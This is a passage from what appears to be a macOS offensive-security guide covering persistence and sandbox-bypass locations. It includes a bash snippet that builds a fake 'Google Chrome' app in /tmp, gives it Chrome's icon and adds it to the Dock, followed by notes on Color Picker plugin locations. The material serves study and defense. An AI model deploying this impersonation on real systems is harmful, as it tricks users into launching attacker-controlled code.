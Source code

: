 ```bash
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CFBundleExecutable</key>
<string>Google Chrome</string>
<key>CFBundleIdentifier</key>
<string>com.google.Chrome</string>
<key>CFBundleName</key>
<string>Google Chrome</string>
<key>CFBundleVersion</key>
<string>1.0</string>
<key>CFBundleShortVersionString</key>
<string>1.0</string>
<key>CFBundleInfoDictionaryVersion</key>
<string>6.0</string>
<key>CFBundlePackageType</key>
<string>APPL</string>
<key>CFBundleIconFile</key>
<string>app</string>
</dict>
</plist>
EOF

# Copy icon from Google Chrome
cp /Applications/Google\ Chrome.app/Contents/Resources/app.icns /tmp/Google\ Chrome.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Google Chrome.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
killall Dock
```
### Color Pickers

Writeup: [https://theevilbit.github.io/beyond/beyond\_0017](https://theevilbit.github.io/beyond/beyond\_0017/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
* A very specific action needs to happen
* You will end in another sandbox
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* `/Library/ColorPickers`
* Root required
* Trigger: Use the color picker
* `~/Library/ColorPickers`
* Trigger: Use the color picker

#### Description & Exploit
